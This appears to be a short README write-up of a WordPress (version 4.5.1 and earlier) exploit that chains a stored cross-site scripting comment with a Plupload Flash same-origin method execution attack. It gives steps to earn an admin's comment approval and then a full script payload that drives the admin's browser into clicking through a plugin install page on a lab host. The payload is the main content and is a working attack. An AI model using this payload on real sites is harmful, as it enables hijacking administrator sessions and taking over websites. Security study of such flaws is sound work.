

# The Steps
**Step 1:**
Gain trust from the admin by posting a Comment

**Step 2:** Wait for approval from the admin

**Step 3**
Inject XSS by posting the code below 
```
<button onclick="fire()">Click</button>
<script>
	function fire() { 
		open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
		setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
	}
</script>
```

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Pupload Same-Origin Method Execution attack (SOME)**

# Affected versions 
**Affected version**
WordPress <= 4.5.1

# Demo

